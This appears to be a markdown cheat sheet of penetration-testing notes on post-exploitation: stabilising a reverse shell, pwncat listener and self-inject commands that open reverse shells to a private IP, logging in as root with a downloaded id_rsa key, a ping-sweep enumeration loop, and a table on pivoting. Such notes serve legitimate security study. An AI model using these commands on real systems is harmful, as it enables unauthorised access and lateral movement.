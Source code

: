 #### Shell Stabilization
`We can use terminal commands like clear that is important after getting reverse shell.`

```export TERM=xterm```

##### Check available languages installed in System like python, perl, etc to get a better shell.

#### Backgrounding and Foregrounding Shell
```
Background CTRL+Z
Foreground : stty raw -echo; fg 
```

#### Pwncat

```
usage : pwncat -l 2000

Self-Inject Shell
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234
```
![Screenshot at 2022-12-19 11-47-20](https://user-images.githubusercontent.com/85208639/208359602-1d7531c9-5f7e-469a-802d-c3ee4c011e6a.png)

#### Connect Multiple Reverse Shells with Clients

```
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234+3
The above command creates 4 reverse shells on the machines at port 1235,1236,1237,1234

```

Sometimes we may gain remote machine ssh secret utilizing it we may be able to get access to it.

```
1) Download the id_rsa to local machine.
2) chmod 600 id_rsa
3) ssh -i id_rsa root@192.169.0.3
```
#### Enumeration:
> There are various ways to enumerate other machines in a network


>Using tools avalable on system like using arp -a command.


>Checking /etc/hosts filein linux or C:\Windows\System32\drivers\etc\hosts file in Windows.


>Using local tools through proxy.

##### Enumerate live machines in a host 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

![Screenshot at 2022-12-19 13-01-33](https://user-images.githubusercontent.com/85208639/208370241-ce5cabbc-3141-4239-9065-2ed4b6ea1c3f.png)




#### Pivoting Techniques
| Tunneling | Port Forwarding |
| --- | ---|
|Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network|Creating a connection between local port and single port on target|
|Reliable if we want to perform nmap scan on other machine or send large amount of traffic.|Reliable but only single port can be accessed at a time.|
